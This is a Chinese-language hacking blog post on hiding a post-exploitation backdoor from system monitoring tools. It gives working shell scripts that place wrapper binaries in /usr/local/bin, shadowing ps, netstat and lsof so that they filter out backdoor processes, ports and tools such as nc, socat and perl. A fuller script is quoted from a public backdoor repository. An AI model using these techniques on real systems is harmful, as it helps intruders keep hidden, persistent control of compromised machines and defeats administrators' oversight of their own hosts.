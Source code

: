```yaml
---
layout: post
title: 后门隐藏之进程隐藏技巧（ps、netstat、top、lsof）
date: 2018-10-15 23:30:00
tags: 后门 backdoor 进程
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面
最近工作忙成狗，写些与技术没什么关系的文档，没办法，谁让咱还指着工资吃饭呢。  

在后渗透过程中对需要长期控制的目标一般会留一个后门，后门的隐蔽性当然值得我们去思考一下，今天记录一下之前用到的一个隐藏后门进程的小技巧。今天讲的不是什么高大上的技术，只是偶尔会用一下的小技巧，当然不是改pid为0，也不是修改系统调用。  

今天说的隐藏进程其实有点不够准确，应该是使命令ps/netstat/top/lsof这几个命令不显示我们的后门进程而已，当然我们也不是替换/劫持这几个命令，只是包装一下这几个命令。  




### \#0x01 PS命令不显示后门进程
其实很简单，我们包装一下ps这个命令，如在ubuntu（Ubuntu 14.04.5）中，ps路径为/bin/ps，如下图

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-1.jpeg?raw=true)

我们需要做的就是在创建一个/usr/local/bin/ps文件，写入如下内容  

```
#!/bin/bash
/bin/ps $@ | grep -Ev 'backdoor name|backdoor server address|backdoor server port'
```
赋予执行权限  
chmod +x /usr/local/bin/ps  

执行which ps后的效果  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-2.jpeg?raw=true)

就是这么简单就搞定了，执行ps的时候就不会有我们的backdoor信息出现了。我们自己使用时，用/bin/ps就OK了。

### \#0x02 netstat、top、lsof
这几个命令同上，很简单，这里不一一介绍了。  

每个命令都手动去改太麻烦，好在有人已经写好了脚本（参见本文引用），一条命令就搞定这几个命令的伪装了（没有支持top命令）……  

### \#0x03 脚本中的语法

参考文献的脚本是这样写的   
```
#!/bin/bash

#ps
#------------------------
touch /usr/local/bin/ps

cat <<EOF >> /usr/local/bin/ps	
#!/bin/bash
/bin/ps \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/ps

#netstat
#------------------------
touch /usr/local/bin/netstat

cat <<EOF >> /usr/local/bin/netstat
#!/bin/bash
/bin/netstat \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/netstat

#lsof
#------------------------
touch /usr/local/bin/lsof

cat <<EOF >> /usr/local/bin/lsof
#!/bin/bash
/usr/bin/lsof \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/lsof
```
其实比较简单，主要有两点需要注意（参见本文引用）   
1、linux shell 的here document 用法 (cat << EOF)，些多行内容到文件  
2、Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数  

### \#0x04 参考
* [iamckn/backdoors](https://github.com/iamckn/backdoors)
* [linux shell 的here document 用法 (cat << EOF)](https://my.oschina.net/u/1032146/blog/146941)
* [cat EOF追加与覆盖](http://www.361way.com/cat-eof-cover-append/4298.html)
* [Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数](https://blog.csdn.net/u011341352/article/details/53215180)
